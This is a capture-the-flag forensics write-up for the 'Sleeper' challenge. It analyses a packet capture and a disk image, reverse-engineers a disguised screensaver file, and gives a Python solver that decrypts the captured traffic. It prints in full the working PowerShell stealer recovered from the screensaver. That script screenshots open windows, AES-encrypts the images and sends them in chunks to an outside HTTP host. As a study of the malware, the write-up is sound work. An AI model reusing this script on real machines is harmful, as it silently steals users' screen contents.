 ```yaml
---
icon: fingerprint
---
```


# Sleeper

### Description

Author: Blacowhait

Wareth is a person who always leaving her laptop without sleep, lock, or anything he doing self. He only depend to windows feature for automate handle her laptop. Someday he cant access her account! he said he dont do anything suspicious, but few hours ago he install an app for internet. Can you helpp?!

### Flag

`CJ{stealer_everywhere__becareful_what_in/on/at_internet}`

***

### Analysis

We are given a network packet capture file and an `ad1` image file. From the packet capture, we can infer that data is transmitted using HTTP through the query parameter. The last part of the key contains the index and the value contains the data itself.

<figure><img src="../../.gitbook/assets/image (55).png" alt=""><figcaption><p>Query parameter from Wireshark</p></figcaption></figure>

After analyzing the disk image, we found new files on the `C:\Windows\SysWOW64` directory. One is a screensaver file and another an executable.

<figure><img src="../../.gitbook/assets/image (56).png" alt=""><figcaption><p>Files on C:\Windows\SysWOW64</p></figcaption></figure>

The `chkmnt.exe` executable is just a normal screen capture application. But the `sconsvr.scr` file is interesting. Since `.scr` files are basically PE executables, we can reverse-engineer it using DNSpy.

From DNSpy, we found a resource called `ss-all-proc.ps1` inside the executable. This script will take a screenshot of every process, encrypts them using AES, and then sends it as an HTTP request just like the one we found on the packet capture.

Credits to **aster** for finding these files.

```powershell
function Encrypt-File {
    param (
        [string]$D783C0,
        [string]$6766A9,
        [string]$92EE28
    )

    Write-Output $6766A9
    Write-Output $92EE28

    $4099D1 = [System.Text.Encoding]::UTF8.GetBytes($6766A9)
    $68263A = [System.Text.Encoding]::UTF8.GetBytes($92EE28)

    if ($4099D1.Length -ne 16 -and $4099D1.Length -ne 24 -and $4099D1.Length -ne 32) {
        throw "ERROR"
    }
    if ($68263A.Length -ne 16) {
        throw "ERROR"
    }

    $88DB2B = New-Object "System.Security.Cryptography.AesManaged"
    $88DB2B.Key = $4099D1
    $88DB2B.IV = $68263A
    $88DB2B.Mode = [System.Security.Cryptography.CipherMode]::CBC
    $88DB2B.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
    $BDAE58 = [System.IO.File]::ReadAllBytes($D783C0)

    $FF85F8 = $88DB2B.CreateEncryptor()
    $42B0F0 = $FF85F8.TransformFinalBlock($BDAE58, 0, $BDAE58.Length);
    [byte[]] $C81F44 = $88DB2B.IV + $42B0F0
    $88DB2B.Dispose()
    $res = [Convert]::ToBase64String($C81F44)
    return $res
}

# $processArray = Get-Process | Where-Object {$_.mainWindowTitle} | Select-Object ProcessName
$processArray = Get-Process | Where-Object { $_.MainWindowTitle } | Select-Object MainWindowTitle

foreach ($process in $processArray) {
    $tmp = $process.MainWindowTitle
    $filePath = "C:\Users\Public\Pictures\tmp.png"
    $command = "C:\Windows\SysWOW64\chkmnt.exe $filepath $tmp"
    Invoke-Expression $command

    $regValue = "HKCU:\Control Panel\Desktop"
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })

    $base64Encoded = Encrypt-File $filePath $key $IV
    $base64Encoded = $base64Encoded[2]
    $chunkSize = 1024
    $totalChunks = [math]::Ceiling($base64Encoded.Length / $chunkSize)
    $baseUrl = 'http://10.21.69.4:8081'

    for ($i = 0; $i -lt $totalChunks; $i++) { 
        $startIndex = $i * $chunkSize; $length = [math]::Min($chunkSize, $base64Encoded.Length - $startIndex)
        $chunk = $base64Encoded.Substring($startIndex, $length)
        $chunkUrlEncoded = [System.Net.WebUtility]::UrlEncode($chunk)
        $fullUrl = "${baseUrl}?vBRqSiWY$i=$chunkUrlEncoded"
	Write-Output $fullUrl
        $response = Invoke-RestMethod -Uri $fullUrl -Method Get
    }

    Remove-Item -Path $filePath
}

$scrnsave = "C:\Windows\SysWOW64\angi.exe"
Invoke-Expression $scrnsave
```

We can see that the IV will be prefixed when the data is sent using HTTP, but how do we actually get the key? Turns out the key and IV will be exactly the same, since we are using the same seed from the `HKCU:\Control Panel\Desktop\ScreenSaveTimeout` registry key.&#x20;

```powershell
# snip
    $value = (Get-ItemProperty -Path $regValue -Name "ScreenSaveTimeout")."ScreenSaveTimeout"
    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $key = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
    Write-Output $key

    $random = [System.Random]::New($value)
    $characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"
    $IV = -join ((1..16) | ForEach-Object { $characters[$random.Next(0, $characters.Length)] })
# snip
```

### Solution

The goal is that we need to decrypt the query parameter value from the HTTP packet using AES with the key and IV from the first 16 characters of the data, and assemble them based on the index on the query parameter key. After creating a script for that, we will get the flag from one of the screen captures.

<figure><img src="../../.gitbook/assets/decrypted_5.png" alt=""><figcaption><p>Screenshot containing the flag</p></figcaption></figure>

### Solver Script

```python
from scapy.all import *
from scapy.layers.http import *
from urllib.parse import unquote
from base64 import b64decode
from Crypto.Cipher import AES

res = [b""] * 1000
packets = rdpcap("./needsleeppls.pcap")
started = False
filecount = 1
key = b"EarWS9whYYeT2q8f"

for p in packets:
    if p.haslayer(IP) and p.haslayer(Raw):
        if p.getlayer(IP).dst == "10.21.69.4":
            payload = p.getlayer(Raw).load
            if b"GET /?vBRqSiWY" in payload:
                start = payload.index(b"=") + 1
                end = payload.index(b" HTTP")
                index_start = payload.index(b"WY") + 2
                index = int(payload[index_start:start-1])

                if index == 0 and started:
                    data = b64decode(b"".join(res))
                    data = data[16:]

                    cipher = AES.new(key, AES.MODE_CBC, key)
                    decrypted = cipher.decrypt(data)
                    with open(f"decrypted_{filecount}.png", "wb") as f:
                        f.write(decrypted)

                    res = [b""] * 1000
                    filecount += 1
                elif not started:
                    started = True

                payload = payload[start:end]
                payload = unquote(payload).encode("utf-8")

                res[index] = payload
```
